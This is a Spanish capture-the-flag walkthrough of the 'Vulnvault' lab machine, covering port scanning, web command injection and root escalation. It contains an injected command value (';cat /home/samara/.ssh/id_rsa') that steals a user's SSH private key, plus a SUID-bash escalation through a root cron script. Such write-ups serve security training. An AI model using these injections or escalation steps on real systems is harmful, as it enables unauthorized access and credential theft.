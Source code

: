 ```yaml
---
description: '✍️ Autor: d1se0🔍 Dificultad: Fácil  📅 Fecha de creación: 25/08/2024'
---
```


# Vulnvault

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre un centro de operaciones.

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

Parece ser que la página está diseñada principalmente para la generación de reportes y la subida de archivos. Sin embargo, tras explorarla un poco más y hacer algunas pruebas, descubrí algo más interesante que podría ser útil ya que con la subida de archivos no tuvo éxito.

<figure><img src="../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Dado que hemos logrado la capacidad de ejecutar comandos de forma remota, el siguiente paso será leer el contenido del archivo `/etc/passwd` para identificar los usuarios presentes en el sistema. Para ello, simplemente ejecutamos el siguiente comando.

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Observamos que existe un usuario llamado **samara** en el sistema. Con esta información, podemos intentar acceder a la clave privada de SSH del usuario. Para ello, podríamos ejecutar el siguiente comando.

```
;cat /home/samara/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

Una vez que hemos obtenido la clave privada de SSH, la copiamos en un archivo en nuestra máquina local, nombrándolo `id_rsa`. A continuación, le asignamos los permisos adecuados con el siguiente comando:

```bash
chmod 600 id_rsa
```

Con los permisos establecidos, nos conectamos al servidor mediante SSH utilizando la clave privada, ejecutando el siguiente comando:

```bash
ssh -i id_rsa samara@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root.**&#x20;

Ahora que estamos dentro como el usuario "samara", encontramos un mensaje de root, pero no contiene nada relevante. Tras investigar un poco más, se me ocurre usar `pspy` para monitorear procesos en busca de alguna actividad oculta. Para ello, seguimos estos pasos:

1. Descargamos `pspy` en la máquina objetivo utilizando `wget`.
2.  Asignamos los permisos de ejecución con:

    ```bash
    chmod +x pspy64
    ```
3.  Finalmente, ejecutamos `pspy` con el siguiente comando:

    ```bash
    ./pspy64
    ```

Observamos que un script llamado `echo.sh` se ejecuta periódicamente con privilegios de root:

```bash
2024/08/26 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Para aprovechar esto, editamos el script utilizando `nano` y añadimos la siguiente línea al final:

```bash
chmod u+s /bin/bash
```

Guardamos los cambios con `Ctrl+O`, presionamos `Enter`, y salimos del editor con `Ctrl+X`. Ahora, solo necesitamos ejecutar el siguiente comando para obtener privilegios de root.

```bash
bash -p
```

Y así, ya somos **root**.
